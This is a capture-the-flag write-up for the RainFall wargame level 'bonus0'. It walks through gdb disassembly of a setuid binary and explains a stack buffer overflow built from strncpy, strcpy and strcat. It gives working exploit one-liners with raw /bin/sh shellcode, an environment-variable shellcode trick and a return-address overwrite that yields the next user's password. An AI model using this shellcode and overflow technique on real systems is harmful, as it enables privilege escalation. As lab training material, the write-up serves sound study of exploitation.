

# Bonus0

## Walkthrough

We list the files in the current home directory.

```bash
bonus0@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 bonus0 bonus0   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 bonus0 bonus0  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 bonus0 bonus0 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 bonus0 bonus0   65 Sep 23  2015 .pass
-rw-r--r--  1 bonus0 bonus0  675 Apr  3  2012 .profile
-rwsr-s---+ 1 bonus1 users  5566 Mar  6  2016 bonus0
bonus0@RainFall:~$ file bonus0 
bonus0: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xfef8b17db26c56ebfd1e20f17286fae3729a5ade, not stripped
```

The file is owned by **bonus1** and has the setuid bit.

We list the functions in the executable.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  read
0x08048380  read@plt
0x08048390  strcat
0x08048390  strcat@plt
0x080483a0  strcpy
0x080483a0  strcpy@plt
0x080483b0  puts
0x080483b0  puts@plt
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x080483d0  strchr
0x080483d0  strchr@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  strncpy
0x080483f0  strncpy@plt
0x08048400  _start
0x08048430  __do_global_dtors_aux
0x08048490  frame_dummy
0x080484b4  p
0x0804851e  pp
0x080485a4  main
0x080485d0  __libc_csu_init
0x08048640  __libc_csu_fini
0x08048642  __i686.get_pc_thunk.bx
0x08048650  __do_global_ctors_aux
0x0804867c  _fini
```

There are 3 user defined functions: `main()`, `pp()` and `p()`.

```
(gdb) disas main
Dump of assembler code for function main:
   0x080485a4 <+0>:     push   ebp
   0x080485a5 <+1>:     mov    ebp,esp
   0x080485a7 <+3>:     and    esp,0xfffffff0
   0x080485aa <+6>:     sub    esp,0x40
   0x080485ad <+9>:     lea    eax,[esp+0x16]
   0x080485b1 <+13>:    mov    DWORD PTR [esp],eax
   0x080485b4 <+16>:    call   0x804851e <pp>
   0x080485b9 <+21>:    lea    eax,[esp+0x16]
   0x080485bd <+25>:    mov    DWORD PTR [esp],eax
   0x080485c0 <+28>:    call   0x80483b0 <puts@plt>
   0x080485c5 <+33>:    mov    eax,0x0
   0x080485ca <+38>:    leave
   0x080485cb <+39>:    ret
End of assembler dump.
```

The `main()` function calls `pp()` and prints text to stdout with `gets()`.

```
(gdb) disas pp
Dump of assembler code for function pp:
   0x0804851e <+0>:     push   ebp
   0x0804851f <+1>:     mov    ebp,esp
   0x08048521 <+3>:     push   edi
   0x08048522 <+4>:     push   ebx
   0x08048523 <+5>:     sub    esp,0x50
   0x08048526 <+8>:     mov    DWORD PTR [esp+0x4],0x80486a0
   0x0804852e <+16>:    lea    eax,[ebp-0x30]
   0x08048531 <+19>:    mov    DWORD PTR [esp],eax
   0x08048534 <+22>:    call   0x80484b4 <p>
   0x08048539 <+27>:    mov    DWORD PTR [esp+0x4],0x80486a0
   0x08048541 <+35>:    lea    eax,[ebp-0x1c]
   0x08048544 <+38>:    mov    DWORD PTR [esp],eax
   0x08048547 <+41>:    call   0x80484b4 <p>
   0x0804854c <+46>:    lea    eax,[ebp-0x30]
   0x0804854f <+49>:    mov    DWORD PTR [esp+0x4],eax
   0x08048553 <+53>:    mov    eax,DWORD PTR [ebp+0x8]
   0x08048556 <+56>:    mov    DWORD PTR [esp],eax
   0x08048559 <+59>:    call   0x80483a0 <strcpy@plt>
   0x0804855e <+64>:    mov    ebx,0x80486a4
   0x08048563 <+69>:    mov    eax,DWORD PTR [ebp+0x8]
   0x08048566 <+72>:    mov    DWORD PTR [ebp-0x3c],0xffffffff
   0x0804856d <+79>:    mov    edx,eax
   0x0804856f <+81>:    mov    eax,0x0
   0x08048574 <+86>:    mov    ecx,DWORD PTR [ebp-0x3c]
   0x08048577 <+89>:    mov    edi,edx
   0x08048579 <+91>:    repnz scas al,BYTE PTR es:[edi]
   0x0804857b <+93>:    mov    eax,ecx
   0x0804857d <+95>:    not    eax
   0x0804857f <+97>:    sub    eax,0x1
   0x08048582 <+100>:   add    eax,DWORD PTR [ebp+0x8]
   0x08048585 <+103>:   movzx  edx,WORD PTR [ebx]
   0x08048588 <+106>:   mov    WORD PTR [eax],dx
   0x0804858b <+109>:   lea    eax,[ebp-0x1c]
   0x0804858e <+112>:   mov    DWORD PTR [esp+0x4],eax
   0x08048592 <+116>:   mov    eax,DWORD PTR [ebp+0x8]
   0x08048595 <+119>:   mov    DWORD PTR [esp],eax
   0x08048598 <+122>:   call   0x8048390 <strcat@plt>
   0x0804859d <+127>:   add    esp,0x50
   0x080485a0 <+130>:   pop    ebx
   0x080485a1 <+131>:   pop    edi
   0x080485a2 <+132>:   pop    ebp
   0x080485a3 <+133>:   ret
End of assembler dump.
```

The `pp()` function:
- calls `p()` function twice
- calls `strcpy()`
- iterates on the string returned by `strcpy()` to replace the first `0` byte with `0x20` (space character)
- calls `strcat()`

```
(gdb) disas p
Dump of assembler code for function p:
   0x080484b4 <+0>:     push   ebp
   0x080484b5 <+1>:     mov    ebp,esp
   0x080484b7 <+3>:     sub    esp,0x1018
   0x080484bd <+9>:     mov    eax,DWORD PTR [ebp+0xc]
   0x080484c0 <+12>:    mov    DWORD PTR [esp],eax
   0x080484c3 <+15>:    call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:    mov    DWORD PTR [esp+0x8],0x1000
   0x080484d0 <+28>:    lea    eax,[ebp-0x1008]
   0x080484d6 <+34>:    mov    DWORD PTR [esp+0x4],eax
   0x080484da <+38>:    mov    DWORD PTR [esp],0x0
   0x080484e1 <+45>:    call   0x8048380 <read@plt>
   0x080484e6 <+50>:    mov    DWORD PTR [esp+0x4],0xa
   0x080484ee <+58>:    lea    eax,[ebp-0x1008]
   0x080484f4 <+64>:    mov    DWORD PTR [esp],eax
   0x080484f7 <+67>:    call   0x80483d0 <strchr@plt>
   0x080484fc <+72>:    mov    BYTE PTR [eax],0x0
   0x080484ff <+75>:    lea    eax,[ebp-0x1008]
   0x08048505 <+81>:    mov    DWORD PTR [esp+0x8],0x14
   0x0804850d <+89>:    mov    DWORD PTR [esp+0x4],eax
   0x08048511 <+93>:    mov    eax,DWORD PTR [ebp+0x8]
   0x08048514 <+96>:    mov    DWORD PTR [esp],eax
   0x08048517 <+99>:    call   0x80483f0 <strncpy@plt>
   0x0804851c <+104>:   leave
   0x0804851d <+105>:   ret
End of assembler dump.
```

The `p()` function:
- calls `puts()` to print `-`
- calls `read()` to read input from stdin
- calls `strchr()` to find and replace the `\n` character with `\0`
- calls `strncpy()` to copies the user input up to 20 characters max

After checking the different functions calls and their arguments, we conclude that:
- the 2 copied strings read from stdin by `p()` are stored in the stack frame of `p()` next to each other
- `pp()` copies the first returned string by `p()`, and concatenates the second one to it, in the stack frame of `main()`

The stack of the executable can be represented as follows:


We notice that there are 54 bytes between the start of the `dest` buffer of `strcpy()` and the `old eip`, in the `main()` stack frame. And from our ASM analysis, we know that the first `\n` character in user input is replaced by a `\0`. And as `strncpy()` in `p()` only copies up to 20 characters, we can write 20 bytes to the first string and then `strcpy()` will consider the first and second string as one. With `strcat()` and the `\0` replacement by a space, our final string may look like: `str1 + str2 + str2`, for a total of up to 60 characters, which is more than enough to override the `old eip` in the `main()` stack frame.

Our goal is to insert a **shellcode** split between the 2 user inputs, followed by placeholder characters and the `0xbffff616` address in last position to override the `old eip` in the `main()` stack frame in order to call our shellcode.

```bash
bonus0@RainFall:~$ (python -c "print('\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c')"; python -c "print('\x24\xb0\x0b\xcd\x80' + 'A' * 9 + '\x16\xf6\xff\xbf' + 'A')"; cat) | ./bonus0 
 - 
 - 
���//sh�/binQVW�$�
                  AAAAAAAAA���A $�
                                  AAAAAAAAA���A
whoami
Floating point exception (core dumped)
```

Unfortunately we cannot find a solution to this **floating point exception** error. The only probable cause for this error is this instruction `repnz scas al,BYTE PTR es:[edi]`, but we may be wrong.

We restart the level with a new approach.

First we use a pattern generator in order to validate the offset of the `old eip` address. We write 20 characters on the first `read()`, and the pattern on the second: an offset of **9 bytes** is found.

Then we use another shellcode from this [article](https://0xrick.github.io/binary-exploitation/bof5). One drawback is that it has a length of 55 characters, which is way too long to fit in our buffer. After some researches, we decide to store our new shellcode in an environment variable.

Finally, we have to find the address of this environment variable inside the executable.

```bash
export SHELLCODE=$(python -c "print('\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80')")
```

```
(gdb) x/32s $esp+500
0xbffff7fc:      "0/bonus0"
0xbffff805:      "LC_PAPER=fr_FR.UTF-8"
0xbffff81a:      "LC_ADDRESS=fr_FR.UTF-8"
0xbffff831:      "LC_MONETARY=fr_FR.UTF-8"
0xbffff849:      "SHELLCODE=1\300\061۰\006̀Sh/ttyh/dev\211\343\061\311f\271\022'\260\005̀1\300Ph//shh/bin\211\343PS\211ᙰ\v̀"
0xbffff88b:      "SHELL=/bin/bash"
0xbffff89b:      "TERM=xterm-256color"
0xbffff8af:      "SSH_CLIENT=192.168.56.1 36246 4242"
0xbffff8d2:      "LC_NUMERIC=fr_FR.UTF-8"
0xbffff8e9:      "SSH_TTY=/dev/pts/0"
0xbffff8fc:      "USER=bonus0"
0xbffff908:      "LC_TELEPHONE=fr_FR.UTF-8"
0xbffff921:      "LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31"...
0xbffff9e9:      ":*.taz=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lz=01;31:*.xz=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.d"...
0xbffffab1:      "eb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35"...
0xbffffb79:      ":*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mk"...
0xbffffc41:      "v=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35"...
0xbffffd09:      ":*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.axv=01;35:*.anx=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.mid=00;36:*.midi=00;36:*.mka=00"...
0xbffffdd1:      ";36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.axa=00;36:*.oga=00;36:*.spx=00;36:*.xspf=00;36:"
0xbffffe42:      "COLUMNS=238"
0xbffffe4e:      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
0xbffffe9b:      "MAIL=/var/mail/bonus0"
0xbffffeb1:      "_=/usr/bin/gdb"
0xbffffec0:      "LC_IDENTIFICATION=fr_FR.UTF-8"
0xbffffede:      "PWD=/home/user/bonus0"
0xbffffef4:      "LANG=en_US.UTF-8"
0xbfffff05:      "LC_MEASUREMENT=fr_FR.UTF-8"
0xbfffff20:      "LINES=54"
0xbfffff29:      "HOME=/home/user/bonus0"
0xbfffff40:      "SHLVL=1"
0xbfffff48:      "LOGNAME=bonus0"
0xbfffff57:      "SSH_CONNECTION=192.168.56.1 36246 192.168.56.103 4242"
```

Our environment variable address is `0xbffff849`, but we have to increment it by 10 to get the start of the string, after `SHELLCODE=`: `0xbffff853`.

Now we just have to fill the first string with 20 `A`, followed by the second string which contains 9 `A` followed by the address of our environment variable.

```bash
bonus0@RainFall:~$ (python -c "print('A' * 20)"; python -c "print('A' * 9 + '\x53\xf8\xff\xbf' + 'A' * 7)"; cat)  | ./bonus0
 - 
 - 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAS���AAAAAAA��� AAAAAAAAAS���AAAAAAA���
whoami
bonus1
cat /home/user/bonus1/.pass            
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

## Resources

- [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator)
- [Store shellcode in environment variable](https://medium.com/@danielorihuelarodriguez/store-shellcode-in-environment-variable-1058062b8b5e)
